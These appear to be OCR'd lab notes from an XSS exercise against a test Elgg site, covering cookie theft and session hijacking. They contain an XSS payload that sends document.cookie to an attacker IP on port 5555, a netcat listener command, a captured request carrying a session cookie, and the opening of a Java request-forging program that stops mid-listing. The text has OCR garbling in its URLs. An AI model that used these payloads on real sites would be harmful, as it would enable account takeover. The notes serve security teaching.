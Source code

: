## stealing cookie

- the browser tries to load the image from the URL in the `src` field
- an `HTTP GET request` sent to the attacker’s machine.
    - in the mean time, it sends the cookies to the `port 5555` of the attacker’s machine

```
// The cookie starts after %3D.

GET /?c=Elgg%3Dtlgbp3diifsf0007299puq2kr1 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

- the attacker has a TCP server listening to the same port.
    - `$ nc -l 5555 -v`
- The server can print out whatever it receives.

```js
// send out the cookies
// http GET
<script>
document.write('<img src=http网址attackerIP:5555?c='
                     + escape(decument.cookie) + ' >');
</script>
```

## Session Hijacking using the Stolen Cookie

```java
import java.io.*;
import java.net.*;

public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
        int responseCode;
        InputStream responseIn=null;

        String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>&__elgg_token=<<correct_elgg_token_value>>";

        // URL to be forged.
        URL url = new URL ("http网址www.xsslabelgg.com/action/friends/add?friend=<<friend_user_guid>>"+requestDetails);

        // URLConnection instance is created
        // to further parameterize a resource request past what the state members of URL instance can represent.
        HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
        if (urlConn instanceof HttpURLConnection) {
            urlConn.setConnectTimeout(60000);
            urlConn.setReadTimeout(90000);
        }

        // addRequestProperty method
        // to add HTTP Header Information.
        // add User-Agent HTTP header to the forged HTTP packet.
        // Add other necessary HTTP Headers yourself. Cookies should be stolen
        // using the method in task3.
        urlConn.addRequestProperty("User-agent","Sun JDK 1.6");

```